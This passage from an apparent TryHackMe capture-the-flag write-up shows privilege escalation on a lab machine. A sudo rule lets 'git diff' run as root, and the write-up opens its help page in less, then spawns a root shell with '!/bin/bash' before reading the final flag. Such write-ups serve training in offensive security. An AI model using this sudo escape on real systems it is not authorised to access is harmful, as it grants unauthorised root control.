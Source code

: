 ```console
git@tryhackme-2404:~$ sudo -l
Matching Defaults entries for git on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User git may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/git --no-pager diff *
```

Even though we have to use the `--no-pager` argument, we can still use the `--help` argument to make it display the man page for the `git-diff`, which will use `less` as the pager, as such:

```console
git@tryhackme-2404:~$ sudo /usr/bin/git --no-pager diff --help
```

Now that we are running `less` as `root`, we can simply use the `!/bin/bash` command in it to spawn a shell as the `root` user.

![Sudo Less Shell](sudo_less_shell.webp){: width="1000" height="500" }

Lastly, we can read the fourth and final flag at `/root/flag-e116666ffb7fcfadc7e6136ca30f75bf.txt` to complete the challenge.

```console
root@tryhackme-2404:/home/git# id
uid=0(root) gid=0(root) groups=0(root),998(docker)
root@tryhackme-2404:/home/git# wc -c /root/flag-e116666ffb7fcfadc7e6136ca30f75bf.txt
38 /root/flag-e116666ffb7fcfadc7e6136ca30f75bf.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>